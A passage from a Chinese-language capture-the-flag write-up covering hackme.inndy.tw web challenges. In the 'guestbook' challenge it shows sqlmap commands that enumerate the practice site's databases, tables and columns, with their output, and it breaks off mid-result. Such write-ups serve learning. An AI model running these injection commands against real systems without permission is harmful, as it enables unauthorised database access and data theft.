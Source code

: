 ```python
decoded = int(binary, 2)
print(decoded.to_bytes((decoded.bit_length() + 7) // 8, "big").decode())
```


## 12.  hide and seek (Web)

这是一道WEB的签到题，flag藏在源代码里，按照格式搜索一下即可。

## 13. guestbook (Web)

提示中说道：“This guestbook sucks. [sqlmap](http://sqlmap.org/) is your friend.”

就是说这一题可以借助 sqlmap 这一工具来进行破解。之前虽然从未接触过这个工具，但是这次稍微学了一点点。

先试了一下这个命令：

```python sqlmap.py -u "https://hackme.inndy.tw/gb/index.php?mod=read&id=3" --level 3 --batch --dbs```

其中 "--dbs" 选项表示 "List database management system's databases"，"--level" 表示 "Level of tests to perform (1-5, default 1)"，此处选择的是中间的等级3，"--batch" 表示 sqlmap 不会询问你输入，全部默认确定 。

该命令返回的结果是：

```
available databases [2]:
[*] guestbook
[*] information_schema
```

从中可以看到两个 database，一个是 guestbook，也即本题的题目，另一个是 information_schema。

那么我们可以继续深入，先查看 guestbook 中有哪些表格。

```python sqlmap.py -u "https://hackme.inndy.tw/gb/index.php?mod=read&id=3" --level 3 --batch --dbs -D guestbook --tables```

结果得到了：

```
Database: guestbook
[3 tables]
+-------+
| flag  |
| posts |
| users |
+-------+
```

从中可以看出 guestbook 中有三个表格，其中一个表格的名字是 flag，多半本题的 flag 就藏在这个表格里。

接下来看看这个表格里都有哪些字段。

```python sqlmap.py -u "https://hackme.inndy.tw/gb/index.php?mod=read&id=3" --level 3 --batch --dbs -D guestbook -T flag --columns```

得到了如下结果：

```
Database: guestbook
Table: flag
[4 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
